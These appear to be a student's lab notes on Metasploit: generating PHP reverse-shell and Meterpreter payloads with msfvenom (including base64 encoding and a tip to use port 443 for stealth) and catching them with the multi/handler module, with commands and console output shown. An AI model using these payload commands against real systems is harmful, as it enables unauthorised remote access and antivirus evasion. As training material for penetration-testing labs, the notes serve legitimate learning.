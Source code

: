 While it can be effective against some antivirus software, using **modern obfuscation techniques or learning methods to inject shellcode is a better** solution to the problem.

e.g. msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
BREAKDOWN:
-p is to indicate it is payload
Then then payload
LHOST to define the local host or the attacker.
-f is define format 
raw is the format type
-e to define encode
php/base64 is the encoding type

### Handlers

In baseball we have pitcher and a catcher. Hander is the catcher.
you will need to be able to accept incoming connections generated by the MSFvenom payload. 

When using an exploit module, this part is automatically handled by the exploit module, you will remember how the payload options title appeared when setting a reverse shell. 

The term commonly used to receive a connection from a target is 'catching a shell'. 

Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.


e.g. # msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
breakdown:
1. msfvenom invoking the module
2. -p: invoking payload
3. php/reverse_php: the payload
4. LHOST=: defining the local host aka you aka the attacker
5. 10.0.2.19: ip add, it can be anything 
6. LPORT=: 7777 use any port that you machine is not working with and higher ports (10,000–65,535). Use 443 for stealthy bend in.
7. -f: invoking formate type
8. > : send it to or relocater
9. reverse_shell.php: the file you want to save the outcome


We will use Multi Handler to **receive the incoming connection**. The module can be used with the use `exploit/multi/handler` command.

To use the module, we will need to set the payload value (php/reverse_php in this case), the LHOST, and LPORT values.
```

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options

```
